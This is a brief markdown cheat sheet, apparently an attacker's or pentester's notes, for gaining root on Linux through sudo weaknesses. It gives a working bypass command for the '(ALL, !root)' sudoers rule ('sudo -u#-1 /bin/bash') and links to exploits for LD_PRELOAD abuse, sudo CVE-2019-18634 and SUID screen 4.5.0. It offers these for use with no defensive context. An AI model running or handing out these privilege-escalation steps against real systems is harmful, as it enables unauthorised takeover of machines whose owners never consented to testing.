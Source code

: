 # Misconfigured sudo commands
## Checks
```
sudo -l
```
## Bypass (ALL, !root) /bin/bash ||| (ALL, !root) ALL
```
sudo -u#-1 /bin/bash
```
## Abuse env_keep+=LD_PRELOAD
```
https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/
```
# Sudo vulns version
## Pwfeedback (CVE 2019-18634)
```
https://github.com/saleemrashid/sudo-cve-2019-18634
```

# Exotics SUID
## /usr/bin/screen-4.5.0
```
https://www.exploit-db.com/exploits/41154
```
